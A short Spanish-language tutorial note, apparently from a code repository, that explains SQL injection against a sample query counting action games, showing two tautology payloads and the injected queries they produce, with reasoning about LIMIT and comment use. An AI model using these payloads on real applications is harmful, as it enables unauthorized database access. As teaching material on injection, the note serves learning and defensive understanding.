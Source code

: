 ## Query 1

````sql
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
````

- Este query **solo es para contar** así que es algo complejo sacar información, pero sirve para entender la inyección cuando solo se puede obtener una linea de resultado. 
- Se debe poner `LIMIT` ya que este tipo de query solo arroja un resultado, en caso de poner únicamente el `or 1 = 1`

### Inyección: ` or '1' = '1' LIMIT 0,1`

- En realidad este SQLi no necesitaría comentario al final, incluso el comentario podría dar error porque ya no podría cerrar el `');` final.

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
# SQLi
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción' or 1 = 1 LIMIT 0,1);
````

### Inyección `' or '1' = '1') -- -`

- Aquí si se pone comentario ya que nosotros mismos "imaginamos" que debíamos cerrar el query con `')` desplazando el `'` original.

````sql
# Original
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción');
# SQLi
SELECT COUNT(*) AS total_juegos_accion FROM juegos WHERE genero_id = (SELECT genero_id FROM generos WHERE nombre = 'Acción' or '1' = '1') -- - ');
````




````

